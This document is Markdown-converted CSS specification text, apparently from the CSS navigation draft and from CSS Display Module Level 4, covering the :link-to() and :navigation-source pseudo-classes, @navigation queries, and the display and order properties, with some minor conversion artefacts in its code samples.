#### 2.1. The `:link-to()` pseudo-class {#css-navigation-1:link-to-pseudo-class}

This specification defines a new **`:link-to()`** functional pseudo-class that matches link elements that link to a certain URL.

> **Example:** A simple example of a `:link-to()` selector is this one, which matches any links that link to the site’s homepage:
>
> ```
> :link-to(url-pattern("/")) {
>   font-weight: bold;
> }
> ```
>
> Passing in a named location is also possible:
>
> ```
> @location --homepage {
>   pattern: url-pattern("/");
> }
>
> :link-to(--homepage) {
>   font-weight: bold;
> }
> ```
>
> Because there is no dynamic part in the homepage URL, you might be tempted to pass in a `<url>` directly:
>
> ```
> :link-to(url("/")) {
>   font-weight: bold;
> }
> ```
>
> However, `url("/")` won’t match URLs such as `/#scroll-to-here` or `/?utm_id=something` so it is recommended to use the `<url-pattern()>` or `<navigation-location>` variants, or use the following alternative:
>
> ```
> @location --homepage {
>   pathname: "/";
>   base-url: document;
> }
>
> :link-to(--homepage) {
>   font-weight: bold;
> }
> ```

> **Example:** A an example of the `:link-to()` pseudo-class is this example which creates a view transition between a item in a list that contains a link (in this document) and the details page for that link (in a different document). This transition works even when the navigation is a back/forward navigation and even if the user has used a language selector UI to change the page into a different language (and thus change the URL). The use of the `:link-to()` pseudo-class ensures that the view transition animations from or to the correct item in the list by matching the relevant parts of the navigation URL to the link URL.
>
> ```
> @view-transition {
>   /* allow cross-document view transitions */
>   navigation: auto;
> }
>
> @location --movie-detail {
>   /* match URLs like /en/movies/123 which is the English page
>      about a movie with ID 123.  Be careful to specify the
>      language part with a "*" but the ID part with a named
>      :id parameter so that matching will require equal IDs
>      but allow differences of language. */
>   pattern: url-pattern("/*/movies/:id");
> }
> ```

> **Note:** Some of the design discussion for this feature has been in [w3c/csswg-drafts#13163](https://github.com/w3c/csswg-drafts/issues/13163).

#### 2.2. The `:navigation-source` pseudo-class {#css-navigation-1:navigation-source-pseudo-class}

This specification defines a **`:navigation-source`** pseudo-class, matching the element that triggered the current navigation. It is a CSS reflection of the `sourceElement` property in the Navigation API. The trigger element can be an [^a^], [^area^], [^form^], a [^input/type/submit^] input, or a [^button^].

The `:navigation-source` pseudo-class matches any element *el* where the current navigation state is not null, and *el* is its source element.

> **Example:** A simple example of a `:navigation-source` selector is this one, which sets the `view-transition-name` for an image thumbnail that is a child of the link that triggers the current navigation.
>
> ```
> ``
> a:navigation-source .thumb {
>   view-transition-name: active-image;
> }
> ```
>
> The `:navigation-source` pseudo-class can also be used for forms and submit buttons:
>
> ```
> ``
> form:navigation-source .submit,
> .submit:navigation-source {
>   outline: 3px solid green;
> }
> ```

### 3. Conditional rules for navigation queries {#css-navigation-1:conditional-navigation-queries}

#### 3.1. Navigation queries: the `@navigation` rule {#css-navigation-1:at-navigation}

The **@navigation** rule is a conditional group rule whose condition tests characteristics of the current URL or of the state of navigation between two URLs. These queries are called **navigation queries**.

Authors can use it to:

- write style sheets that apply to multiple pages but behave somewhat differently between those pages,
- write style sheets that apply to single page applications that change their URL over time, so that style changes when the URL changes, and
- write style sheets that declaratively start view transitions (or make other appropriate style changes) in response to navigations.

The syntax of the condition in the `@navigation` rule is similar to that defined for `<supports-condition>` in [CSS-CONDITIONAL-3]. Negation, conjunction, and disjunction are all needed so that authors can specify the interaction of multiple styles in ways that are most intuitive and require the simplest code.

> **Example:** The `@navigation` rule can be used in simple cases to define styles that only affect a particular page:
>
> ```
> @navigation (at: url-pattern("/")) {
>   /* These styles only apply to the site's homepage
>      (including any URL with a search or hash). */
> }
> ```

> **Example:** The `@navigation` rule can also be used to define styles that are used when a certain navigation is in progress. This is particularly useful for defining styles that cause view transitions.
>
> ```
> @location --search-results-page {
>   pattern: url-pattern("/search-results");
> }
> @location --product-page {
>   pattern: url-pattern("/product/:id");
> }
>
> @navigation (from: --search-results-page) and
>             (to: --product-page) {
>   /* These styles apply when a navigation is in progress
>      from a search results page to a product page (as
>      defined by the @location rules above), but not in the
>      reverse direction. */
> }
>
> @navigation (between: --search-results-page and --product-page) {
>   /* These styles apply when a navigation is in progress
>      between a search results page and a product page (as
>      defined by the @location rules above), in either
>      direction. */
> }
> ```

The syntax of the `@navigation` rule is:

```css
@navigation <navigation-condition> {
  <rule-list>
}
```

with `<navigation-condition>` defined as:

```css
<navigation-condition> = not <navigation-in-parens>
                     | <navigation-in-parens> [ and <navigation-in-parens> ]*
                     | <navigation-in-parens> [ or <navigation-in-parens> ]*
<navigation-in-parens> = ( <navigation-condition> ) | ( <navigation-test> ) | <general-enclosed>
<navigation-test> = <navigation-location-test> |
                    <navigation-location-between-test> |
                    <navigation-type-test> |
                    <navigation-phase-test>

<navigation-location-test> = <navigation-relation> : <navigation-location>
<navigation-relation> = at | from | to

<navigation-location-between-test> =
    between : <navigation-location> and <navigation-location>

<navigation-type-test> = history : <navigation-type-keyword>
<navigation-type-keyword> = traverse | back | forward | reload

<navigation-phase-test> = phase : <navigation-phase-keyword>
<navigation-phase-keyword> = loading | ready | committed
```

> **Issue:** Should we use `at`/`from`/`to` or `current`/`other`/`from`/`to`?

The above grammar is purposely very loose for forwards-compatibility reasons, since the `<general-enclosed>` production allows for substantial future extensibility. Any `@navigation` rule that does not parse according to the grammar above (that is, a rule that does not match this loose grammar which includes the <general-enclosed> production) is invalid. Style sheets **must not** use such a rule and processors **must** ignore such a rule (including all of its contents).

Many of these grammar terms are associated with a boolean result, as follows:

**`<navigation-condition>`**

: **not `<navigation-in-parens>`**

  : The result is the negation of the `<navigation-in-parens>` term.

  **`<navigation-in-parens>` [ and <navigation-in-parens> ]***

  : The result is true if all of the `<navigation-in-parens>` child terms are true, and false otherwise.

  **`<navigation-in-parens>` [ or <navigation-in-parens> ]***

  : The result is false if all of the `<navigation-in-parens>` child terms are false, and true otherwise.

**`<navigation-in-parens>`**

: The result is the result of the child subexpression.

**`<navigation-location-test>`**

: The result is true if the `<navigation-location>` matches current navigation URL of the document given the `<navigation-relation>`.

**`<navigation-location-between-test>`**

: **between: `<navigation-location>` and <navigation-location>**

  : The result is true if the current navigation URL *from* of the document given `from` is non-null, the current navigation URL *to* of the document `to` is non-null, one of the two `<navigation-location>`s matches *from*, and the other of the two <navigation-location>s matches *to*.

**`<navigation-type-test>`**

: **history: traverse**

  : True if the current navigation type is `traverse`.

  **history: back**

  : True if the current navigation type is `traverse` and the document’s current navigation state’s new index is less than its old index.

  **history: forward**

  : True if the current navigation type is `traverse` and the document’s current navigation state’s new index is greater than its old index.

  **history: reload**

  : True if the current navigation type is `reload`.

**`<navigation-phase-test>`**

: The current navigation state is not null, and its phase matches the given `phase` value.

**`<general-enclosed>`**

: The result is false.

  Authors must not use `<general-enclosed>` in their stylesheets. It exists only for future-compatibility, so that new syntax additions do not invalidate too much of a `<navigation-condition>` in older user agents.

The condition of the `@navigation` rule is the result of the `<navigation-condition>` in its prelude.

> **Note:** Some of the design discussion for this feature has been in [w3c/csswg-drafts#12594](https://github.com/w3c/csswg-drafts/issues/12594) and [w3c/csswg-drafts#8209](https://github.com/w3c/csswg-drafts/issues/8209).

#### 3.2. The `navigation()` function for `@when` {#css-navigation-1:navigation-when-function}

This specification defines an additional function for the `@when` rule:

```css
navigation() = navigation( <navigation-condition> )
```

The `navigation()` function is associated with the boolean result that its contained condition is associated with.

#### 3.3. The `navigation()` function for `if()` {#css-navigation-1:navigation-if-function}

This specification defines an additional function for the `if()` function’s `<if-test>` production:

```css
navigation() = navigation( <navigation-condition> )
```

The `navigation()` function is associated with the boolean result that its contained `<navigation-condition>` is associated with.

### 4. Processing model {#css-navigation-1:processing-model}

The at rules and pseudo-classes defined in this document rely on the current navigation state.

A **navigation state** is a struct with the following items:

****old URL** **new URL****

: a URL

****type****

: a `NavigationType`

****old index** **new index****

: an integer

****phase****

: `loading`, `ready`, or `committed`.

****source element****

: null or an `Element`.

To get the **current navigation state** of a `Document` *document*:

1. If *document* is not fully active, return null.
2. Let *navigation* be *document*’s relevant global object’s navigation API.
3. Let *activation* be *navigation*’s `activation`.
4. If *document* has not been revealed:

  1. If *activation* is null, return null.
  2. Assert: *activation*’s `entry` is not null.
  3. Return a new navigation state whose old URL is *activation*’s `from`’s `url`, new URL is *activation*’s `entry`’s `url`, type is *activation*’s `navigationType`, old index is *activation*’s `from`’s `index`, new index is *activation*’s `entry`’s `index`, phase is `committed`, and source element is null.

   > **Note:** this means that navigations that occur before the page is revealed, e.g. calling `pushState()` in the head do not reflect in CSS.
5. Let *navigateEvent* be the ongoing navigate event of *navigation*.
6. Let *phase* be `loading`.
7. If *navigateEvent* is null and *navigation*’s traversing navigate event is not null:

  1. Set *navigateEvent* to *navigation*’s traversing navigate event.
  2. Set *phase* to `ready`.
8. If *navigateEvent* is null, return null.
9. If *navigateEvent*’s interception state is `"committed"` or `"scrolled"`, set *phase* to `committed`.
10. Return a new navigation state whose old URL is *document*’s URL, new URL is *navigateEvent*’s `destination`’s `url`, type is *ongoingNavigateEvent*’s `navigationType`, old index is *navigation*’s current entry’s `index`, new index is *navigateEvent*’s `destination`’s `index`, phase is *phase*, and source element is *ongoingNavigateEvent*’s `sourceElement`.

To get the **current navigation URL** given a `Document` *document* and a `<navigation-relation>` *relation*:

1. Let *state* be *document*’s current navigation state.
2. If *state* is null, return null.
3. Return the result of switching on *relation*:

**`to`**

: *state*’s new URL.

**`from`**

: *state*’s old URL.

**`at`**

: *state*’s new URL if *state*’s phase is `committed`; Otherwise *state*’s old URL.

To get the **current navigation type** of a document *document*:

1. If *document*’s current navigation state is non-null, return its type.
2. Return null.

The **traversing navigate event** is the ongoing navigate event which was reset when the ongoing navigation is set to `traversal`.

> **Issue:** Improve integration with the HTML standard, especially the concept of traversing navigate event and unexported definitions.

---

## CSS Display Module Level 4 {#css-display-4}

- **Shortname:** `css-display-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-display-4/](https://drafts.csswg.org/css-display-4/)
- **Published TR:** [https://www.w3.org/TR/css-display-4/](https://www.w3.org/TR/css-display-4/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-06-05

### 1.  Introduction {#css-display-4:intro}

*This section is normative.*

CSS takes a source document organized as a **tree** of **elements** (which can contain a mix of other elements and text nodes) and **text nodes** (which can contain text), and renders it onto a [canvas](#css2:canvas) such as your screen, a piece of paper, or an audio stream. Although any such source document can be rendered with CSS, the most commonly used type is the DOM. [DOM] (Some of these more complex tree types might have additional types of nodes, such as the comment nodes in the DOM. For the purposes of CSS, all of these additional types of nodes are ignored, as if they didn’t exist.)

To do this, it generates an intermediary structure, the **box tree**, which represents the formatting structure of the rendered document. Each **box** in the box tree represents its corresponding element (or pseudo-element) in space and/or time on the canvas, while each **text sequence** in the box tree likewise represents the corresponding contents of its text nodes.

To create the box tree, CSS first uses [cascading and inheritance](#css-cascade-6), to assign a computed value for each CSS property to each element and text node in the source tree. (See [CSS-CASCADE-3].)

Then, for each element, CSS generates zero or more boxes as specified by that element’s `display` property. Typically, an element generates a single box, the principal box, which represents itself and contains its contents in the box tree. However, some `display` values (e.g. `display: list-item`) generate more than one box (e.g. a [principal block box](#css2:principal-box) and a child [marker box](#css2:lists)). And some values (such as `none` or `contents`) cause the element and/or its descendants to not generate any boxes at all. Boxes are often referred to by their `display` type—​e.g. a box generated by an element with `display: block` is called a “block box” or just a “block”.

A box is assigned the same styles as its generating element, unless otherwise indicated. In general, inherited properties are assigned to the principal box, and then inherit through the box tree to any other boxes generated by the same element. Non-inherited properties default to applying to the principal box, but when the element generates multiple boxes, are sometimes defined to apply to a different box: for example, the `border` properties applied to a table element are applied to its table grid box, not to its principal table wrapper box. If the value computation process alters the styles of those boxes, and the element’s style is requested (such as through `getComputedStyle()`), the element reflects, for each property, the value from the box to which that property was applied.

Similarly, each contiguous sequence of sibling text nodes generates a text sequence containing their text contents, which is assigned the same styles as the generating text nodes. If the sequence contains no text, however, it does not generate a text sequence.

In constructing the box tree, boxes generated by an element are descendants of the principal box of any ancestor elements. In the general case, the direct **parent box** of an element’s principal box is the principal box of its nearest ancestor element that generates a box; however, there are some exceptions, such as for `run-in` boxes, display types (like tables) that generate multiple container boxes, and intervening anonymous boxes.

An **anonymous box** is a box that is not associated with any element. Anonymous boxes are generated in certain circumstances to fix up the box tree when it requires a particular nested structure that is not provided by the boxes generated from the element tree. For example, a [table cell box](#css2:table-display) requires a particular type of parent box (the [table row box](#css2:table-display)), and will generate an anonymous [table row box](#css2:table-display) around itself if its parent is not a [table row box](#css2:table-display). (See [CSS2] § [17.2.1](#css2:anonymous-boxes).) Unlike element-generated boxes, whose styles inherit strictly through the element tree, anonymous boxes (which only exist in the box tree) [inherit](#css-cascade-6:inheriting) through their box tree parentage.

In the course of layout, boxes and text sequences can be broken into multiple fragments. This happens, for example, when an inline box and/or text sequence is broken across lines, or when a block box is broken across pages or columns, in a process called fragmentation. It can also happen due to bidi reordering of text (see [Applying the Bidirectional Reordering Algorithm](#css-writing-modes-4:bidi-algo) in [CSS Writing Modes](#css-writing-modes-4:text-direction)) or higher-level display type box splitting, e.g. [block-in-inline splitting](#css2:img-anon-block) (see [CSS2§9.2](#css2:box-gen)) or [column-spanner-in-block](#css-multicol-2:spanning-columns) splitting (see [CSS Multi-column Layout](#css-multicol-2:spanning-columns)). A box therefore consists of one or more box fragments, and a text sequence consists of one or more text fragments. See [CSS-BREAK-3] for more information on fragmentation.

> **Note:** Many of the CSS specs were written before this terminology was ironed out, or refer to things incorrectly, so view older specs with caution when they’re using these terms. It should be possible to infer from context which term they really mean. Please [report errors](#css-display-4:sotd) in specs when you find them, so they can be corrected.

> **Note:** Further information on the “aural” box tree and its interaction with the `display` property can be found in the [CSS Speech Module](#css-speech-1:aural-model). [CSS-SPEECH-1]

#### 1.1.  Module interactions {#css-display-4:placement}

This module replaces and extends the definition of the `display` property defined in [CSS2] section 9.2.4.

None of the properties in this module apply to the `::first-line` or `::first-letter` pseudo-elements.

#### 1.2.  Value Definitions {#css-display-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Box Layout Modes: the `display` property {#css-display-4:the-display-properties}

| Field | Value |
| --- | --- |
| Name: | **display** |
| [Value:](#css-values-4:value-defs) | [ `<display-outside>` \|\| `<display-inside>` ] \| `<display-listitem>` \| `<display-internal>` \| `<display-box>` \| `<display-legacy>` |
| [Initial:](#css-cascade-6:initial-values) | inline |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | a pair of keywords representing the inner and outer display types plus optional `list-item` flag, or a `<display-internal>` or `<display-box>` keyword; see prose in a variety of specs for computation rules |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see [§ 2.9 Animating and Interpolating display](#css-display-4:display-animation) |

User agents are expected to support this property on all media, including non-visual ones. The `display` property defines an element’s **display type**, which consists of the two basic qualities of how an element generates boxes:

- the **inner display type**, which defines (if it is a non-replaced element) the kind of formatting context it generates, dictating how its descendant boxes are laid out. (The inner display of a replaced element is outside the scope of CSS.)
- the **outer display type**, which dictates how the principal box itself participates in flow layout.

Text sequences have no display type.

Some `display` values have additional side-effects: such as `list-item`, which also generates a `::marker` pseudo-element, and `none`, which causes the element’s entire subtree to be left out of the box tree.

> **Advisement:** The `display` property has no effect on an element’s semantics: these are defined by the document language and *are not affected by CSS*. Aside from the `none` value, which also affects the aural/speech output [CSS-SPEECH-1] and interactivity of an element and its descendants, the `display` property only affects visual layout: its purpose is to allow designers freedom to change the layout behavior of an element *without* affecting the underlying document semantics.

Values are defined as follows:

```css
<display-outside>  = block | inline | run-in
<display-inside>   = flow | flow-root | table | flex | grid | ruby
<display-listitem> = <display-outside>? && [ flow | flow-root ]? && list-item
<display-internal> = table-row-group | table-header-group |
           table-footer-group | table-row | table-cell |
           table-column-group | table-column | table-caption |
           ruby-base | ruby-text | ruby-base-container |
           ruby-text-container
<display-box>      = contents | none
<display-legacy>   = inline-block | inline-table | inline-flex | inline-grid
```

The following informative table summarizes the values of `display`:

| Short `display` | Full `display` | Generated box |
| --- | --- | --- |
| `none` | — | subtree omitted from box tree |
| `contents` | — | element replaced by contents in box tree |
| `block` | `block flow` | block-level block container aka block box |
| `flow-root` | `block flow-root` | block-level block container that establishes a new block formatting context (BFC) |
| `inline` | `inline flow` | inline box |
| `inline-block` | `inline flow-root` | inline-level block container aka **inline block** |
| `run-in` | `run-in flow` | run-in box (inline box with special box-tree-munging rules) |
| `list-item` | `block flow list-item` | block box with additional [marker box](#css2:lists) |
| `inline list-item` | `inline flow list-item` | inline box with additional [marker box](#css2:lists) |
| `flex` | `block flex` | block-level flex container |
| `inline-flex` | `inline flex` | inline-level flex container |
| `grid` | `block grid` | block-level grid container |
| `inline-grid` | `inline grid` | inline-level grid container |
| `ruby` | `inline ruby` | inline-level ruby container |
| `block ruby` | `block ruby` | block box containing ruby container |
| `table` | `block table` | block-level table wrapper box containing table grid box |
| `inline-table` | `inline table` | inline-level table wrapper box containing table grid box |
| `<display-internal>` types | — | [layout-specific internal box](#css-display-4:layout-specific-display) |

> **Note:** Following the precedence rules of “most backwards-compatible, then shortest”, serialization of equivalent `display` values uses the “Short `display`” column. [CSSOM]

#### 2.1.  Outer Display Roles for Flow Layout: the `block`, `inline`, and `run-in` keywords {#css-display-4:outer-role}

The `<display-outside>` keywords specify the element’s outer display type, which is essentially its principal box’s role in flow layout. They are defined as follows:

****block****

: The element generates a box that is **block-level** when placed in flow layout. [CSS2]

****inline****

: The element generates a box that is **inline-level** when placed in flow layout. [CSS2]

****run-in****

: The element generates an run-in box, which is a type of inline-level box with special behavior that attempts to merge it into a subsequent block container. See [§ 6 Run-In Layout](#css-display-4:run-in-layout) for details.

> **Note:** Outer display types do affect replaced elements.

If a `<display-outside>` value is specified but `<display-inside>` is omitted, the element’s inner display type defaults to `flow`.

#### 2.2.  Inner Display Layout Models: the `flow`, `flow-root`, `table`, `flex`, `grid`, and `ruby` keywords {#css-display-4:inner-model}

The `<display-inside>` keywords specify the element’s inner display type, which defines the type of formatting context that lays out its contents (assuming it is a non-replaced element). They are defined as follows:

****flow****

: The element lays out its contents using **flow layout** ([block-and-inline layout](#css2)).

  If its outer display type is `inline` or `run-in`, and it is participating in a block or inline formatting context, then it generates an inline box.

  Otherwise it generates a block container box.

  Depending on the value of other properties (such as `position`, `float`, or `overflow`) and whether it is itself participating in a block or inline formatting context, it either establishes a new block formatting context for its contents or integrates its contents into its parent formatting context. See [CSS2.1 Chapter 9](#css2). [CSS2] A block container that establishes a new block formatting context is considered to have a used inner display type of `flow-root`.

****flow-root****

: The element generates a block container box, and lays out its contents using flow layout. It always establishes a new block formatting context for its contents. [CSS2]

****table****

: The element generates a principal table wrapper box that establishes a block formatting context, and which contains an additionally-generated table grid box that establishes a table formatting context. [CSS2]

****flex****

: The element generates a principal flex container box and establishes a flex formatting context. [CSS-FLEXBOX-1]

****grid****

: The element generates a principal grid container box, and establishes a grid formatting context. [CSS-GRID-1]

  (Grids using `subgrid` might not generate a new grid formatting context; see [CSS-GRID-2] for details.)

****ruby****

: The element generates a ruby container box and establishes a ruby formatting context in addition to integrating its base-level contents into its parent formatting context (if it is inline) or generating a wrapper box of the appropriate outer display type (if it is not). [CSS-RUBY-1]

If a `<display-inside>` value is specified but `<display-outside>` is omitted, the element’s outer display type defaults to `block`—​except for `ruby`, which defaults to `inline`.

#### 2.3.  Generating Marker Boxes: the `list-item` keyword {#css-display-4:list-items}

The **list-item** keyword causes the element to generate a `::marker` pseudo-element [CSS-PSEUDO-4] with the content specified by its `list-style` properties ([CSS 2.1§12.5 Lists](#css2:lists)) [CSS2] together with a principal box of the specified type for its own contents.

If no inner display type value is specified, the principal box’s inner display type defaults to `flow`. If no outer display type value is specified, the principal box’s outer display type defaults to `block`.

> **Note:** In this level, as restricted in the grammar, list-items are limited to the Flow Layout display types (`block`/`inline`/`run-in` with `flow`/`flow-root` inner types). This restriction may be relaxed in a future level of this module.

#### 2.4.  Layout-Internal Display Types: the `table-*` and `ruby-*` keywords {#css-display-4:layout-specific-display}

Some layout models, such as `table` and `ruby`, have a complex internal structure, with several different roles that their children and descendants can fill. This section defines those “**layout-internal**” `display` values, which only have meaning within that particular layout mode.

Unless otherwise specified, both the inner display type and the outer display type of elements using these `display` values are set to the given keyword.

When the `display` property of a replaced element computes to one of the layout-internal values, it is handled as having a used value of `inline`. White space collapsing and anonymous box generation must happen around those replaced elements based on that `inline` value, as if they never had a layout-internal display value applied to them.

**Authors should not assign a layout-internal display value to replaced elements.**

The `<display-internal>` keywords are defined as follows:

****table-row-group**, **table-header-group**, **table-footer-group**, **table-row**, **table-cell**, **table-column-group**, **table-column****

: The element is an **internal table element**. It generates the appropriate **internal table box** which participates in a table formatting context. See [CSS2§17.2](#css2:table-display) [CSS2].

  `table-cell` boxes have a `flow-root` inner display type.

****table-caption****

: The element generates a **table caption box**, which is a block box with special behavior with respect to table and table wrapper boxes. See [CSS2§17.2](#css2:table-display) [CSS2].

  `table-caption` boxes have a `flow-root` inner display type.

****ruby-base**, **ruby-text**, **ruby-base-container**, **ruby-text-container****

: The element is an **internal ruby element**. It generates the appropriate **internal ruby box** which participates in a ruby formatting context. [CSS-RUBY-1]

  `ruby-base` and `ruby-text` have a `flow` inner display type.

Boxes with layout-specific display types generate anonymous wrapper boxes around themselves when placed in an incompatible parent, as defined by their respective specifications.

> **Example:** For example, Table Layout requires that a `table-cell` box must have a `table-row` parent box.
>
> If it is misparented, like so:
>
> ```markup
> <div style="display:block;">
>   <div style="display:table-cell">...</div>
> </div>
> ```
>
> It will generate wrapper boxes around itself, producing a structure like:
>
> ```
> block box
> └anonymous table box
>  └anonymous table-row-group box
>   └anonymous table-row box
>    └table-cell box
> ```
>
> Even if the parent is another internal table element, if it’s not the *correct* one, wrapper boxes will be generated. For example, in the following markup:
>
> ```markup
> <div style="display:table;">
>   <div style="display:table-row">
>     <div style="display:table-cell">...</div>
>   </div>
> </div>
> ```
>
> Anonymous wrapper box generation will produce:
>
> ```
> table box
> └anonymous table-row-group box
>  └table-row box
>   └table-cell box
> ```
>
> This "fix-up" ensures that table layout has a predictable structure to operate on.

#### 2.5.  Box Generation: the `none` and `contents` keywords {#css-display-4:box-generation}

While `display` can control the *types* of boxes an element will generate, it can also control whether an element will generate any boxes at all.

The `<display-box>` keywords are defined as follows:

****contents****

: The element itself does not generate any boxes, but its children and pseudo-elements still generate boxes and text sequences as normal. For the purposes of box generation and layout, the element must be treated as if it had been replaced in the element tree by its contents (including both its source-document children and its pseudo-elements, such as `::before` and `::after` pseudo-elements, which are generated before/after the element’s children as normal).

  > **Note:** As only the box tree is affected, any semantics based on the document tree, such as selector-matching, event handling, and property inheritance, are not affected. **As of writing, however, [this is not implemented correctly in major browsers](https://github.com/w3c/csswg-drafts/issues/3040), so using this feature on the Web must be done with care as it can prevent accessibility tools from accessing the element’s semantics.**

  This value computes to `display: none` on replaced elements and other elements whose rendering is not entirely controlled by CSS; see [Appendix B: Effects of display: contents on Unusual Elements](#css-display-4:unbox) for details.

  > **Note:** Replaced elements and form controls are treated specially because removing only the element’s own generating box is a more-or-less undefined operation. As this behavior may be refined if use cases (and more precise rendering models) develop, authors should use `display: none` rather than `display: contents` on such elements for forward-compatibility.

****none****

: The element and its descendants generate no boxes or text sequences.

  Similarly, if a text node is defined to behave as `display: none`, it generates no text sequences.

Elements with either of these values do not have inner or outer display types, because they don’t generate any boxes at all.

> **Note:** As these values cause affected elements to not generate a box, anonymous box generation rules will ignore the elided elements entirely, as if they did not exist in the box tree.

Markup-based relationships, however, are not affected by these values, as they are solely rendering-time effects.  For example, although they may affect which table cell *appears* in a column, they do not affect which table cell is associated with a particular column *element*. Similarly, they cannot affect which HTML `summary` element is associated with a particular table or whether a `legend` is considered to be labelling the contents of a particular `fieldset`.

#### 2.6.  Precomposed Inline-level Display Values {#css-display-4:legacy-display}

CSS level 2 used a single-keyword syntax for `display`, requiring separate keywords for block-level and inline-level variants of the same layout mode. These `<display-legacy>` keywords map as follows:

****inline-block****

: Computes to `inline flow-root`.

****inline-table****

: Computes to `inline table`.

****inline-flex****

: Computes to `inline flex`.

****inline-grid****

: Computes to `inline grid`.

> **Note:** Although these keywords and their equivalents compute to the same value, their specified values remain distinct.

> **Note:** The `getComputedStyle()` serialization rules will always output these precomposed keywords rather than the equivalent two-keyword pairs due to the [shortest, most backwards-compatible serialization principle](#cssom-1:serializing-css-values).

#### 2.7.  Automatic Box Type Transformations {#css-display-4:transformations}

Some layout effects require **blockification** or **inlinification** of the box type, which sets the box’s computed outer display type to `block` or `inline` (respectively). (This has no effect on display types that generate no box at all, such as `none` or `contents`.) Additionally:

- If a block box (`block flow`) is inlinified, its inner display type is set to `flow-root` so that it remains a block container.
- If an inline box (`inline flow`) is inlinified, it recursively inlinifies all of its in-flow children, so that no block-level descendants break up the inline formatting context in which it participates.
- For legacy reasons, if an inline block box (`inline flow-root`) is blockified, it becomes a `block` box (losing its `flow-root` nature). For consistency, a `run-in flow-root` box also blockifies to a `block` box.
- If a layout-internal box is blockified, its inner display type converts to `flow` so that it becomes a block container. Inlinification has no effect on layout-internal boxes. (However, placement in such an inline context will typically cause them to be wrapped in an appropriately-typed anonymous inline-level box.)

> **Note:** There are two methods used to fix up box types when a box is mismatched to its context. One is transformation of the computed value of `display`, such as blockification and inlinification described here. The other, taking place during [box tree construction](#css-display-4:intro) (after computed values have been determined), is the creation of intermediary anonymous boxes, such as happens in [tables](#css2:anonymous-boxes), [ruby](#css-ruby-1:box-fixup), and [flow](#css2:box-gen) layout.

> **Example:** Some examples of computed-value fixup include:
>
> - Absolute positioning or floating an element blockifies the box’s display type. [CSS2]
> - Containment in a ruby container inlinifies the box’s display type, as described in [CSS-RUBY-1].
> - A parent with a `grid` or `flex` `display` value blockifies the box’s display type. [CSS-GRID-1] [CSS-FLEXBOX-1]

#### 2.8.  The Root Element’s Principal Box {#css-display-4:root}

The root element’s display type is always blockified, and its principal box always establishes an independent formatting context. This box’s containing block is the initial containing block.

Additionally, a `display` of `contents` computes to `block` on the root element.

#### 2.9.  Animating and Interpolating `display` {#css-display-4:display-animation}

In general, the `display` property’s animation type is discrete. However, similar to interpolation of `visibility` (see [Web Animations §  Animation of visibility](#web-animations-1:animating-visibility)), during interpolation between `none` and any other `display` value, *p* values between 0 and 1 map to the non-`none` value. Additionally, the element is [inert](https://html.spec.whatwg.org/multipage/interaction.html#inert) as long as its `display` value would compute to `none` when ignoring the Transitions and Animations cascade origins.

### 3.  Display Order: the `order` property {#css-display-4:order-property}

| Field | Value |
| --- | --- |
| Name: | **order** |
| [Value:](#css-values-4:value-defs) | `<integer>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | flex items and grid items |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified integer |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

Boxes are generally displayed and laid out in the same order as they appear in the source document. In some formatting contexts, the `order` property can be used to rearrange the order of boxes to deliberately create a divergence of the logical order of elements and their spatial arrangement on the 2D visual canvas. (See [§ 3.1 Reordering and Accessibility](#css-display-4:order-accessibility).)

Specifically, the `order` property controls the order in which flex items or grid items appear within their container, by assigning them to ordinal groups. It takes a single **`<integer>`** value, which specifies which ordinal group the item belongs to.

> **Example:** Here’s an example of a catalog item card which has a title, a photo, and a description. Within each entry, the source document content is ordered logically with the title first, followed by the description and the photo. This provides a sensible ordering for speech rendering and in non-CSS browsers. For a more compelling visual presentation, however, `order` is used to pull the image up from later in the content to the top of the card.
>
> ```css
> article.sale-item {
>   display: flex;
>   flex-flow: column;
> }
> article.sale-item > img {
>   order: -1; /* Shift image before other content (in layout order) */
>   align-self: center;
> }
> ```
>
> ```markup
> <article class="sale-item">
>   <h1>Computer Starter Kit</h1>
>   <p>This is the best computer money can buy, if you don’t have much money.
>   <ul>
>     <li>Computer
>     <li>Monitor
>     <li>Keyboard
>     <li>Mouse
>   </ul>
>        alt="You get: a white desktop computer with matching peripherals."
>     width="250" height="188">
> </article>
> ```
>
> 
>
> ### Computer Starter Kit {#css-display-4:quiet-pubrules-1}
>
> This is the best computer money can buy, if you don’t have much money.
>
> - Computer
> - Monitor
> - Keyboard
> - Mouse
>
> An example rendering of the code above.

Flex and grid containers lay out their contents in **order-modified document order**, starting from the lowest numbered ordinal group and going up. Items with the same ordinal group are laid out in the order they appear in the source document. This also affects the [painting order](#css2) [CSS2], exactly as if the flex/grid items were reordered in the source document. Absolutely-positioned children of a flex/grid container are treated as having `order: 0` for the purpose of determining their painting order relative to flex/grid items.

Unless otherwise specified by a future specification, this property has no effect on boxes that are not flex items or grid items.

#### 3.1.  Reordering and Accessibility {#css-display-4:order-accessibility}

The `order` property *does not* affect ordering in non-visual media (such as [speech](#css-speech-1)). Likewise, `order` does not affect the default traversal order of sequential navigation modes (such as cycling through links, see e.g. [`tabindex`](https://html.spec.whatwg.org/multipage/interaction.html#attr-tabindex) [HTML]).

**Authors *must* use `order` only for spatial, not logical, reordering of content. Style sheets that use `order` to perform logical reordering are non-conforming.**

